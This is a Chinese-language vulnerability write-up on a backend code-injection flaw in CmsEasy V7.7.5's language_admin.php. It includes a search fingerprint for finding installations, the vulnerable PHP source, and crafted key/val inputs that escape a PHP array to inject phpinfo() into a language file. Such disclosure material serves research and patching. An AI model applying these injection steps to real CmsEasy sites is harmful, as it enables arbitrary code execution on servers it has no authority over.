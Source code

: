 # CmsEasy language_admin.php 后台命令执行漏洞

## 漏洞描述

CmsEasy 后台存在命令执行漏洞，通过文件 language_admin.php 对部分文件进行写入操作，导致任意文件写入

## 影响版本

<a-checkbox checked>CmsEasy V7.7.5_20210919</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="cmseasyedit" </a-checkbox></br>

## 环境搭建

<a-alert type="success" message="https://www.cmseasy.cn/chm/faq/show-645.html" description="" showIcon>
</a-alert>
<br/>



![img](/assets/PeiQi-Wiki/img/1632722654239-33f8ba2f-dfd8-48b9-bf8f-a93f1d2b2cba-20220313235033013.png)

## 漏洞复现

主页面

![img](/assets/PeiQi-Wiki/img/1632722813176-a2c6d9c2-e5f5-483a-8448-775a9ce41d4a-20220313235034285.png)

存在漏洞的文件为 `lib/admin/language_admin.php`

![img](/assets/PeiQi-Wiki/img/1632731716459-d529c18d-4ef7-439d-8f89-67046487db78.png)

```php
function add_action() {
        $lang_choice='system.php';
        if (isset($_GET['lang_choice'])){
            $lang_choice=$_GET['lang_choice'];
        }
        if (front::post('submit')) {
            $langid=front::get('id');
            $lang=new lang();
            $langdata = $lang->getrows('id='.$langid, 1);
            if (is_array($langdata)){
                $langurlname=$langdata[0]['langurlname'];
            }else{
                front::alert(lang_admin('language_pack').lang_admin('nonentity'));
            }
            $path=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
            $tipspath=ROOT.'/lang/'.$langurlname.'/'.$lang_choice;
            $content=file_get_contents($path);
            $tipscontent=file_get_contents($tipspath);
            $replace="'".front::$post['key']."'=>'".front::$post['val']."',";
            $tipsreplace="'".front::$post['key']."'=>'".front::$post['cnnote']."',";
            $content=str_replace(');',"\n".$replace.');',$content);
            file_put_contents($path,$content);
            $pos=strpos($tipscontent,$tipsreplace);
            if ($langurlname != 'cn'&&$pos === false) {
                $tipscontent=str_replace(');',"\n".$tipsreplace.');',$tipscontent);
                file_put_contents($tipspath,$tipscontent);
            }
            if ($_GET['site'] != 'default') {
                $ftp=new nobftp();
                $ftpconfig=config::get('website');
                $ftp->connect($ftpconfig['ftpip'],$ftpconfig['ftpuser'],$ftpconfig['ftppwd'],$ftpconfig['ftpport']);
                $ftperror=$ftp->returnerror();
                if ($ftperror) {
                    exit($ftperror);
                }
                else {
                    $ftp->nobchdir($ftpconfig['ftppath']);
                    $ftp->nobput($ftpconfig['ftppath'].'/lang/'.$langurlname.'/'.$lang_choice,$path);
                }
            }
            event::log(lang_admin('add_to').lang_admin('language_pack'),lang_admin('success'));
            //
            $shepi='<script type="text/javascript">alert("'.lang_admin('dosomething').lang_admin('complete').'");gotoinurl("'.url('language/edit/id/'.$langdata[0]['id'],true);
            $shepi=$shepi.'&lang_choice='.$lang_choice;
            $shepi=$shepi.'");</script>';
            echo $shepi;
            //exit;
            //front::refresh(url('language/edit',true));
        }
        $this->view->lang_choice=$lang_choice;
    }
```

访问这个页面

![img](/assets/PeiQi-Wiki/img/1632731775416-f1f75d5f-ced3-4d63-8ecd-f9728e3e785c.png)

其中参数有三个，分别为 `key , cnnote, val`

![img](/assets/PeiQi-Wiki/img/1632731945111-a0cb2f4a-4ab8-4f77-a026-368341754607.png)

传入参数后,查看 `lang/cn/system_custom.php` 文件中

```php
<?php
/*
 *中文语言包
 */

return

array(


'2'=>'3',);
?>
```

由于没有对传入的参数进行过滤，通过写入特殊的参数就可以逃逸出数组造成命令执行

分别传入两次参数

```php
test1  test2  test3);
```

写入后文件内容

```php
<?php
/*
 *中文语言包
 */

return

array(

'test2'=>'test3);',);
?>
```

再传入一次参数

```php
test4  ,test5, 	,phpinfo());/*
```

![img](/assets/PeiQi-Wiki/img/1632732559691-eed0b63a-9beb-44fc-ac7c-8bb456eaea14.png)

写入后文件内容

![img](/assets/PeiQi-Wiki/img/1632732579899-4659ac1d-b516-4960-93ad-c4fdf4800db5.png)

访问文件 `/lang/cn/system_custom.php`

![img](/assets/PeiQi-Wiki/img/1632732628987-af135049-37e0-4dcd-bad7-04d53985c677.png)



若有收获，就点个赞吧
